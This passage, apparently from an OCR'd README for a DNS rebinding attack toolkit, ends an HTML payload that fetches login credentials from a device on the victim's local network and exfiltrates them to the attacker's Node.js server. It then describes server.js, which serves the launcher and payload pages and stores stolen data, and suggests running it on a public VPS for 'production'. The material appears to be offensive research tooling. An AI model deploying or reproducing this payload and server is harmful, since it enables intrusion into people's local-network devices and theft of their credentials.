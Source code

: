 ```html
                                .then(res => res.json())

             // {
             //     "username": "crashOverride",
             //     "password": "hacktheplanet!",
             // }
            // console.log(creds)

            // great, now let's exfiltrate those creds to the Node.js server
            // running this whole shebang. That's the last thing we care about,
            // so we will just return this promise as the result of attack()
            // and let its handler's deal with it.
            //
            // NOTE: the second argument to exfiltrate(...) must be JSON
            // serializable.
            return DNSRebindNode.exfiltrate('auth-example', creds)

        } catch (err) {
            return Promise.reject(err)
        }
    }
</script>
</body>
</html>
```

### `server.js`

This script is used to deliver the `launcher.html` and `payload.html` files, as well as receive and save exifltrated data from the `DNSRebindNode` to the `data/` folder. For development, I usually run this server on localhost and point `DNSRebindAttack.attack(...)` towards `127.0.0.1`. For production, I run the server on a VPS cloud server, and point `DNSRebindAttack.attack(...)` to it's public IP address.

```bash
sudo node server
```

```
usage: server [-h] [-v] [-p PORT]

DNS Rebind Toolkit server

Optional arguments:
  -h, --help            Show this help message and exit.
  -v, --version         Show program's version number and exit.
  -p PORT, --port PORT  Which ports to bind the servers on. May include 
                        multiple like: --port 80 --port 1337 (default: -p 80 
                        -p 8008 -p 8060 -p 1337)
```

### More Examples
